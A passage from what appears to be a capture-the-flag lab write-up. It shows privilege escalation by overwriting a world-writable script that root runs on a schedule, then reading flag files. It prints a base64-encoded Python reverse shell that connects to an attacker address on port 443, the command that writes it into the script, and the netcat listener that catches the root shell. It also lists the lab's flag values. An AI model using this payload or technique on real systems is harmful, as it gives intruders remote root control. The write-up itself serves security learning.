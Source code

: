 Apart from containing FLAG8, this files seemed to be ran constantly, maybe by a cron job (look at the comments). Also, the '-user' switch was provided to the 'find' program, meaning that a oser other than 'codebot' might be running the script. Thankfully, the file could be written by anyone:

{% highlight bash %}
codebot@victim-1:/$ ls -lah cleanup.sh
ls -lah cleanup.sh
-rwxrwxrwx 1 root root 210 Dec 12 08:41 cleanup.sh
codebot@victim-1:/$ echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE1Mi43Mi4yIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOycK | base64 -d; echo
<jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOycK | base64 -d; echo
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.152.72.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

codebot@victim-1:/$ echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE1Mi43Mi4yIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOycK | base64 -d > /cleanup.sh
<iL2Jpbi9zaCIsIi1pIl0pOycK | base64 -d > /cleanup.sh
codebot@victim-1:/$ cat cleanup.sh
cat cleanup.sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.152.72.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
codebot@victim-1:/$
{% endhighlight %}

I echoed a reverse shell payload in the cleanup.sh file, hoping that it would get executed by a user with elevated privileges. After a few seconds, the script got executed by the root user:

{% highlight bash %}
root@attackdefense:~# nc -nvlp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.152.72.3.
Ncat: Connection from 192.152.72.3:40664.
/bin/sh: 0: can t access tty; job control turned off
# python -c 'import pty; pty.spawn("/bin/bash")'
root@victim-1:~#
{% endhighlight %}

After getting root, it was time to get FLAG3 and FLAG7, which I somehow didn't get during my exploitation process. FLAG3 was located in /root/pythonAPI/API.py (it got returned as a header if an user marked as 'admin' compiled any code) and FLAG7 could be found in /home/admin/FLAG7. Also, FLAG10 was located in a file named FLAG10 inside root's home directory:

{% highlight bash %}
# python -c 'import pty; pty.spawn("/bin/bash")'
root@victim-1:~# cat ~/pythonAPI/API.py | grep FLAG3
cat ~/pythonAPI/API.py | grep FLAG3
		resp.headers["FLAG3"] = "9448a9de8df7ef9473c3d82729bff89b"
root@victim-1:~# cat /home/admin/FLAG7
cat /home/admin/FLAG7
59b0dc3b11be41bd31e3e20823bc3a45
root@victim-1:~# cat ~/FLAG10
cat ~/FLAG10
e8288b0cc0a442b58260b96f72609c9d
root@victim-1:~#
{% endhighlight %}